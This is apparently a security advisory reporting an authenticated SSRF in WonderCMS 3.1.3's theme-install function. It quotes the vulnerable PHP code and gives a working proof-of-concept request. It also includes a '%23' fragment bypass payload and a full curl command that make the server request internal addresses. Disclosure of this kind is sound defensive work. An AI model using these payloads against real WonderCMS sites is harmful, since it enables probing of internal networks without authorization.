

# SSRF vulnerability in `installUpdateThemePluginAction` Function of `index.php` File when type=themes (WonderCMS 3.1.3 version)

## 0x01 Affected version

vendor: https://github.com/WonderCMS/

version: 3.1.3

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `installUpdateThemePluginAction` function of WonderCMS 3.1.3 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `installThemePlugin` parameter. The vulnerability is triggered when the value of the parameter `type` is `themes`. We should note that the vulnerability requires authentication to trigger.


The vulnerable code is located in the `installUpdateThemePluginAction()` function in the `index.php` file. Because the function `installUpdateThemePluginAction()` does not perform sufficient checksumming on the `installThemePlugin` parameter, the taint is introduced from the `$url` variable into the tainted function `curl_exec` at the file `index.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `installThemePlugin` parameter, eventually leading to an SSRF vulnerability.


Function call stack information related to the SSRF vulnerability.

```
Wcms->installUpdateThemePluginAction (/var/www/html/wondercms/index.php:1083)
Wcms->init (/var/www/html/wondercms/index.php:130)
{main} (/var/www/html/wondercms/index.php:15)
```


The location of the code that triggers the vulnerability

```php
	/**
	 * Install and update theme
	 * @throws Exception
	 */
	public function installUpdateThemePluginAction(): void
	{
		if (!isset($_REQUEST['installThemePlugin'], $_REQUEST['type']) || !$this->verifyFormActions(true)) {
			return;
		}

		$url = $_REQUEST['installThemePlugin'];
		$type = $_REQUEST['type'];
		$path = sprintf('%s/%s/', $this->rootDir, $type);
		$folders = explode('/', str_replace(['/archive/master.zip','/archive/main.zip'], '', $url));
		$folderName = array_pop($folders);

		if (in_array($type, self::VALID_DIRS, true)) {
			$zipFile = $this->filesPath . '/ZIPFromURL.zip';
			$zipResource = fopen($zipFile, 'w');
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, $url);
			curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
			curl_setopt($ch, CURLOPT_FILE, $zipResource);
			curl_exec($ch);
			$curlError = curl_error($ch);
			curl_close($ch);
			$zip = new \ZipArchive;
			if ($curlError || $zip->open($zipFile) !== true || (stripos($url, '.zip') === false)) {
				$this->recursiveDelete($this->rootDir . '/data/files/ZIPFromURL.zip');
				$this->alert('danger',
					'Error opening ZIP file.' . ($curlError ? ' Error description: ' . $curlError : ''));
				$this->redirect();
			}
			$zip->extractTo($path);
			$zip->close();
			$this->recursiveDelete($this->rootDir . '/data/files/ZIPFromURL.zip');
			$this->recursiveDelete($path . $folderName);
			$themePluginFolder = $path . $folderName . '-master';
			if (!is_dir($themePluginFolder)) {
				$themePluginFolder = $path . $folderName . '-main';
			}
			if (!rename($themePluginFolder, $path . $folderName)) {
				throw new Exception('Theme or plugin not installed. Possible cause: themes or plugins folder is not writable.');
			}
			$this->alert('success', 'Successfully installed/updated ' . $folderName . '.');
			$this->redirect();
		}
	}
```


Because the `installThemePlugin` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
GET /wondercms/?installThemePlugin=http://172.16.119.1/tets%23https://github.com/robiso/sky/archive/master.zip&type=themes&token=a3926e0b25ea9c109c32e1f013a571b51190214bdf2dd848d04f314214af2812
```


This also shows that the security filtering functions currently used are incomplete. An attacker can easily bypass it by using the following payload.

```
http://172.16.119.1/tets%23https://github.com/robiso/sky/archive/master.zip
```


Examples of triggered vulnerabilities




You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i -s -k -X $'GET' \
    -H $'Host: 172.16.119.147' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/wondercms/?installThemePlugin=http://172.16.119.1/' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'x-custom-ip-authorization: 127.0.0.1' -H $'Connection: close' \
    -b $'54e7d701daf706e028b5135c2ab6049b=svkasl680me62m9o8eh5ika81j; PHPSESSID=a5kttu2d8dhc2b4osfkj7g1b8k' \
    $'http://172.16.119.147/wondercms/?installThemePlugin=http://172.16.119.1/flag234%23https://github.com/robiso/sky/archive/master.zip&type=themes&token=be0dee20ca747ed7b1dd1d5b09b7be45d56a3267ef23ed993a2921cc4a64a565'
```

## 0x03 Acknowledgement

z3


